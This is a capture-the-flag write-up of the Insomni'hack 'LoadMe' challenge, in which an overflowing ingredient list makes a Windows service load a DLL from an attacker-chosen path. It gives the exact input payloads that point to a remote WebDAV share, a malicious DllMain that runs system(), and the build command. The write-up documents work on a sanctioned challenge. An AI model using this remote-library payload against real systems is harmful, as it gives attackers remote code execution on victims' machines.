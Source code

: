 # LoadMe

> We have developed a ```super soft``` that gives meal ideas based on ingredients. The service is still in beta but the interface should look like this:  
> 
> nc loadme.insomnihack.ch 1337

Even though it's supposed to be a pwn challenge we get no binary to reverse engineer.

```
$ nc loadme.insomnihack.ch 1337
██╗███╗   ██╗███████╗ ██████╗ ███╗   ███╗███╗   ██╗██╗    ██╗  ██╗ █████╗  ██████╗██╗  ██╗
██║████╗  ██║██╔════╝██╔═══██╗████╗ ████║████╗  ██║██║    ██║  ██║██╔══██╗██╔════╝██║ ██╔╝
██║██╔██╗ ██║███████╗██║   ██║██╔████╔██║██╔██╗ ██║██║    ███████║███████║██║     █████╔╝ 
██║██║╚██╗██║╚════██║██║   ██║██║╚██╔╝██║██║╚██╗██║██║    ██╔══██║██╔══██║██║     ██╔═██╗ 
██║██║ ╚████║███████║╚██████╔╝██║ ╚═╝ ██║██║ ╚████║██║    ██║  ██║██║  ██║╚██████╗██║  ██╗
╚═╝╚═╝  ╚═══╝╚══════╝ ╚═════╝ ╚═╝     ╚═╝╚═╝  ╚═══╝╚═╝    ╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝╚═╝  ╚═╝

Welcome to the cookery recipe Generator:
Please give a comma-separated list of ingredients:
```

The service asks for a list, prints it back and terminates:

```
< Please give a comma-separated list of ingredients:
> cement,sand,gravel,water
< cement,sand,gravel,water
< Sorry, the kitchen is currently closed
```

The obvious next step is to try a payload like this one:

```
< Please give a comma-separated list of ingredients:
> ,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,
```

And this time we get a nice error message along with a stack trace:

```
WARNING Unable to load the dll ,,,,,,,,,,,
CookeryRecipe.exe caused an Access Violation at location 000000005ED5D491 in module wow64.dll DEP violation at location 0000000000000000.

Registers:
eax=00000000 ebx=000b9020 ecx=2b3a867b edx=00000000 esi=000b90e0 edi=013ff944
eip=00000000 esp=013ff86c ebp=013ff968 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010202

AddrPC   Params
00000000 00000000 000BA627 00000001
000B1750 00000018 017110A4 017110CC  CookeryRecipe.exe!main  [/work/src/CookeryRecipe.c @ 65]
000B1396 00000000 00000000 000B14C0  CookeryRecipe.exe!__tmainCRTStartup  [/usr/src/mxe/tmp-gcc-i686-w64-mingw32.static/gcc-11.2.0.build_/mingw-w64-v9.0.0/mingw-w64-crt/crt/crtexe.c @ 321]
73FB62C4 011A7000 2A057C0F 00000000  kernel32.dll!0x162c4
772B1B69 FFFFFFFF 772D33EE 00000000  ntdll.dll!0x61b69
772B1B34 000B14C0 011A7000 00000000  ntdll.dll!0x61b34
```

The warning is especially interesting, because it suggests we can try to make it load a library with a specified name, 
which we most likely overwrote providing an input of more than 64 characters.

We've tried to load a library that should load on every Windows system (for example `user32.dll`) and although the app
still crashes with a stracktrace, the warning about not being able to load the dll doesn't show up anymore.

Then we remembered a nifty trick when exploiting Windows challenges at CTFs (especially at onsite events): if we can
somehow invoke a `LoadLibrary` with our own library hosted on a network share, we immediately gain code execution that's
very convenient to use (after all, that's just C code written by us).

Just like before with `user32.dll` we've tried providing a UNC path to a publicly hosted library:

```
< Please give a comma-separated list of ingredients:
> ,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,\\live.sysinternals.com\tools\autorunsc.exe
< ,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,\\live.sysinternals.com\tools\autorunsc.exe
< CookeryRecipe.exe caused an Access Violation at location 000000005ED5D491 in module wow64.dll DEP violation at location 0000000000000000.
```

And again, there is no warning about not being able to load the library and, what confirms our suspicions that it is
indeed an invocation of `LoadLibary` with an argument provided by us, a few seconds delay (most likely to download the
binary) before the program continued.

We decided it's time to write a library of our own:
```c
#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
    system("dir");
    ExitProcess(1);
}
```

Which then can be cross-compiled to a 32-bit Windows library on Linux with mingw:  
```
$ i686-w64-mingw32-g++ kodzik.c -s -shared -o kodzik.dll
```

Last thing we needed to do was to host a public SMB share and lost an hour trying to do so. It turns out that many ISPs
and hosting providers just outright block ports 139 and 445. And rightly so, because the world had enough problems with
vulnerabilities in popular SMB implementations (including Wannacry with its SMB `EternalBlue` exploit). But while looking
at `tcpdump` output trying to debug SMB connectivity we also saw a connection attempt to the tcp/80 port. Quick Google
search revealed that Windows might also try to use WebDAV while resolving UNC paths and that we can even specify
a custom port in the path itself: `\\1.2.3.4@8080\path\to\a\file.dll`.
Knowing that we've set up a WebDAV share using Apache and tried to load our library with the task service:

```
< Please give a comma-separated list of ingredients:
> ,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,\\1.2.3.4@8080\data\kodzik.dll
< ,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,\\1.2.3.4@8080\data\kodzik.dll
<  Volume in drive C is OS
<  Volume Serial Number is 4A1B-C069
<
<  Directory of C:\Users\Public\loadme
<
< 01/28/2022  05:08 PM    <DIR>          .
< 01/28/2022  05:08 PM    <DIR>          ..
< 01/28/2022  04:19 PM    <DIR>          bin
< 11/24/2021  04:20 PM               186 guardian.bat
< 01/28/2022  05:90 PM             3,290 guardian.ps1
...
```

Only thing left was to find a file with the flag and print it out:
`INS{S0M3T1M3S-PWN-DOES-NOT-REQUIRE-REGISTERS}`.

More like a misc than a pwn if you ask us, but...
